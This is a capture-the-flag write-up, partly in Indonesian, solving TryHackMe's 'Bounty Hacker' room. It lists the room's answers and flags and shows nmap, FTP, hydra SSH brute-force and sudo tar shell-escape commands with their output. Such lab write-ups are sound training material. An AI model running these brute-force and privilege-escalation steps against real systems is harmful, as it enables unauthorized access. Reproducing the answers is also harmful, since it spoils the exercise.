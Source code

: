 # Bounty Hacker
- desc: You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
- url : [https://tryhackme.com/r/room/cowboyhacker](https://tryhackme.com/r/room/cowboyhacker)

# docs
- [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

# answer
- Task 1
  - lin
  - SSH
  - RedDr4gonSynd1cat3
  - THM{CR1M3_SyNd1C4T3}
  - THM{80UN7Y_h4cK3r}

# Solve (Visual)
## information gathering
- Saya memulai dengan melakukan pemindaian menggunakan nmap. \
![alt text](docs/images/image-18.png)
- Hasil pemindaian menunjukkan bahwa port 21 (FTP) terbuka, dan memungkinkan login dengan user anonim.
- Saya kemudian mengunduh file yang tersedia di server FTP menggunakan perintah get. \
![alt text](docs/images/image-17.png)
- Setelah mengecek isi file, saya menemukan sebuah wordlist yang kemungkinan dapat digunakan untuk mencoba akses SSH. \
![alt text](docs/images/image-19.png)

## exploit
- Saya melakukan bruteforce terhadap akun lin menggunakan wordlist yang telah ditemukan, dengan hydra. \
![alt text](docs/images/image-20.png)
- Setelah berhasil mendapatkan kredensial yang valid, saya masuk ke sistem dan berhasil menemukan flag user. \
![alt text](docs/images/image-21.png)

## post exploit
- Selanjutnya, saya melakukan pencarian SUID dan memeriksa hak akses sudo.
- Dari hasil pemeriksaan, ditemukan bahwa pengguna memiliki izin untuk menjalankan perintah tar dengan sudo, yang dapat digunakan untuk meningkatkan hak akses \
![alt text](docs/images/image-22.png)

# Solve (Text-Based)
## information gathering
```bash
: '[+] setup'
ip=10.10.10.79
tun=10.21.78.122

: '[+] nmap'
nmap -sCV -T4 --min-rate=1000000 $ip -oN nmap
# Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 19:37 WIB
# Nmap scan report for 10.10.10.79 (10.10.10.79)
# Host is up (0.22s latency).
# Not shown: 970 filtered tcp ports (no-response), 27 closed tcp ports (reset)
# PORT   STATE SERVICE VERSION
# 21/tcp open  ftp     vsftpd 3.0.3
# | ftp-syst: 
# |   STAT: 
# | FTP server status:
# |      Connected to ::ffff:10.21.78.122
# |      Logged in as ftp
# |      TYPE: ASCII
# |      No session bandwidth limit
# |      Session timeout in seconds is 300
# |      Control connection is plain text
# |      Data connections will be plain text
# |      At session startup, client count was 2
# |      vsFTPd 3.0.3 - secure, fast, stable
# |_End of status
# | ftp-anon: Anonymous FTP login allowed (FTP code 230)
# |_Can't get directory listing: TIMEOUT
# 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
# |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
# |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
# 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
# |_http-title: Site doesn't have a title (text/html).
# |_http-server-header: Apache/2.4.18 (Ubuntu)
# Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done: 1 IP address (1 host up) scanned in 40.42 seconds

: '[+] ftp check'
ftp $ip
# Name (10.10.10.79:ariafatah): Anonymous
ftp> passive
ftp> ls
# -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
# -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
ftp> get task.txt
ftp> get locks.txt

cat locks.txt 
# rEddrAGON
# ReDdr4g0nSynd!cat3
# Dr@gOn$yn9icat3
# R3DDr46ONSYndIC@Te
# ReddRA60N
# R3dDrag0nSynd1c4te
# dRa6oN5YNDiCATE
# ReDDR4g0n5ynDIc4te
# R3Dr4gOn2044
# RedDr4gonSynd1cat3
# R3dDRaG0Nsynd1c@T3
# Synd1c4teDr@g0n
# reddRAg0N
# REddRaG0N5yNdIc47e
# Dra6oN$yndIC@t3
# 4L1mi6H71StHeB357
# rEDdragOn$ynd1c473
# DrAgoN5ynD1cATE
# ReDdrag0n$ynd1cate
# Dr@gOn$yND1C4Te
# RedDr@gonSyn9ic47e
# REd$yNdIc47e
# dr@goN5YNd1c@73
# rEDdrAGOnSyNDiCat3
# r3ddr@g0N
# ReDSynd1ca7e

cat task.txt 
# 1.) Protect Vicious.
# 2.) Plan for Red Eye pickup on the moon.

# -lin
```

## exploit
```bash
: 'bruteforce ssh: hydra'
hydra -l lin -P locks.txt $ip ssh -t 64
# [22][ssh] host: 10.10.10.79   login: lin   password: RedDr4gonSynd1cat3

ssh lin@$ip
# pass: RedDr4gonSynd1cat3

cat user.txt 
# THM{CR1M3_SyNd1C4T3}
```

## post exploit
```bash
find / -type f -user root -perm -4000 2>/dev/null

sudo -l
# pass: RedDr4gonSynd1cat3
# User lin may run the following commands on bountyhacker:
    # (root) /bin/tar

: suid tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
cat /root/root.txt
# THM{80UN7Y_h4cK3r}
```